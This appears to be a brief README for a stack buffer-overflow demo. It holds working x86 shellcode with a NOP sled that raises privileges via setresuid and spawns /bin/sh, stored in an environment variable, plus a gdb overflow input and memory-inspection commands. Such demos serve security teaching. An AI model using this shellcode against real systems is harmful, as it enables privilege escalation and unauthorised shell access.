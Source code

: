 # b0f demo

## Description

Here is just a project preapred for a demo. 

This puts shellcode in environment variable.

```sh
export SHELLCODE=$(python -c 'print "\x90"*100 + "\x90\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xa4\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

Examples on debug b0f  

```sh
r$(python -c "print 'A'*140 + 'BBBB'")
```

Delete breakpoints in gdb

```sh
clear
delete
```

Search memory

```sh
x/100s $esp
x/100x $esp
```
